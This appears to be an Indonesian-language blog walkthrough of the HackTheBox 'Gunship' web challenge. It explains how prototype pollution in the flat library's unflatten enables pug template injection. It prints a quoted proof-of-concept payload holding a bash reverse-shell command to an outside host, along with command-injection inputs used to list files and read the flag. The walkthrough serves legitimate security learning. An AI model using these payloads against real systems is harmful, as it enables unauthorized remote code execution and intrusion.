 ```yaml
---
title: HackTheBox - Gunship
date: 2023-12-29 07:18:00 +0700
categories:
  - HackTheBox
  - Challenges
tags:
  - web
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/challenges/web/gunship.png
  alt: Gunship - HackTheBox
---
```


**Gunship** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, burpsuite dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pertama-tama kita buka webnya dulu, dan analisis. Lihat dibagian bawah web, kita bisa inputkan sesuatu disitu. **"Who's your favourite artist?"**. Untuk menjawabnya, baca dulu bacaan dibagian atas. Jika kita input asal-asalan akan muncul teks **"Please provide us with the full name of an existing member."**.

Setelah baca yang diatas, terdapat dua nama, yaitu **Dan Haigh and Alex Westaway**. Nah, coba salah satu. Dan hasilnya **Hello guest, thank you for letting us know!**.

Hummm. Coba kita analisis file yang sudah didownload tadi. Nah setelah di ekstrak didalamnya ada banyak file, buka yang folder challenge. Di dalam direktori challenge kan ada flag, gak mungkin lah yaa menemukan flag semudah itu, coba baca flagnya **HTB{f4k3_fl4g_f0r_t3st1ng}**, sudah saya bilang `:)` bruhhhhh, coba analisis yang lain dahh. Nah ada yang menarik di bagian `package.json`.

```
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}
```
{: file='package.json'}

Dibagian depedencies ada flat dan pug, hummm. Coba cari digoogle exploitnya, setelah saya cari kalau kerentanan dari flat itu kita bisa `prototype pollution` dan pug itu kita bisa `mengeksekusi kode`. Coba telusuri dan analisis file lainnya, masuk direktori routes baca index.js

```
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```
{: file='routes/index.js'}

Humm, lihat dibagian router post, ada `unflatten` dan `pug.compile`. Coba cari digoogle lagi `:)`, untuk `pug.compile` tidak ada yang menarik, tapi untuk yang `unflatten` ini menarik, coba search `unflatten exploit` buka yang [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), nah disitu ada bagian pug, analisis itu. Kita bisa copy dari bagian awal protoblock sampai selesai akhir protoblock.

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```
```python
"__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
```

Sekarang buka burpsuite, jalan kan yang bagian input-an tadi, masukkan ke repeater burp. Nah di dalam bagian `execSync()` kita ubah jadi `'$(ls)'`, kita akan menampilkan filenya apa aja yang ada di situ. 

![Desktop View](/assets/img/hackthebox/challenges/include/Gunship-1.png){: .w-75}

Lihat hasilnya `/bin/sh: flagkmBDk: not found`, nah sekarang coba kita ganti `'$(cat flagkmBDk)'`

![Desktop View](/assets/img/hackthebox/challenges/include/Gunship-2.png){: .w-75}

*/bin/sh: HTB{f4k3_fl4g_f0r_t3st1ng}*

> kenapa kok fake flag? karena saya menjalankan yang file Docker, bukan yang dari HTB nya langsung.
{: .prompt-info}